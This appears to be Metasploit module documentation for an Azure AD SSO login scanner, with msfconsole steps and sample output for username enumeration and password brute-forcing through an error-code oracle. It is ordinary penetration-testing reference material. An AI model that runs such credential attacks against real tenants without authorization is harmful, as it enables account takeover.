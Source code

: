 ## Vulnerable Application

The Microsoft Azure AD SSO service has a vulnerable endpoint that delivers an error-code based
response to specific authentication requests in XML. The endpoint, when passed the correct
credentials, will respond with a DesktopSsoToken that can be used to authenticate to Azure AD.
When the authentication is unsuccessful, the error code that is returned can be used to discover
the validity of usernames in the target tenant.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/azure_ad_login`
- [ ] `show info`
- [ ] `set USER_FILE USER_FILE`
- [ ] `set PASS_FILE PASS_FILE`
- [ ] `set DOMAIN example.com`
- [ ] `run`
- [ ] Check output for validity of your test username(s), and password(s)


## Options

### DOMAIN

The target tenant domain to use for the username checks.

### USERNAME

A specific username to verify.

### PASSWORD

A specific password to verify.

### USER_FILE

A file with users, one per line.

### PASS_FILE

A file with passwords, one per line.
    

## Scenarios
If a tenant's domain is known, you can use this module for username and password brute-forcing.

Specific target output replaced with *s so as not to disclose information
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASS_FILE /home/kali/pass.txt
PASS_FILE => /home/kali/pass.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[+] Password Password1! is invalid but example.com\**** is valid!
[+] Login example.com\****:****** is valid!
[+] Desktop SSO Token: *******************************************
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If a tenant's domain is known, you can enumerate their usernames
    
```msf6 > use auxiliary/scanner/http/azure_ad_login
msf6 auxiliary(scanner/http/azure_ad_login) > set USER_FILE /home/kali/users.txt
USER_FILE => /home/kali/users.txt
msf6 auxiliary(scanner/http/azure_ad_login) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(scanner/http/azure_ad_login) > set DOMAIN example.com
DOMAIN => example.com
msf6 auxiliary(scanner/http/azure_ad_login) > run

[-] example.com\wrong is not a valid user
[-] example.com\k0pak4 is not a valid user
[+] Password password is invalid but example.com\**** is valid!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against current Azure AD tenants with SSO enabled.

## References
- https://raxis.com/blog/metasploit-azure-ad-login
- https://arstechnica.com/information-technology/2021/09/new-azure-active-directory-password-brute-forcing-flaw-has-no-fix/
- https://github.com/treebuilder/aad-sso-enum-brute-spray
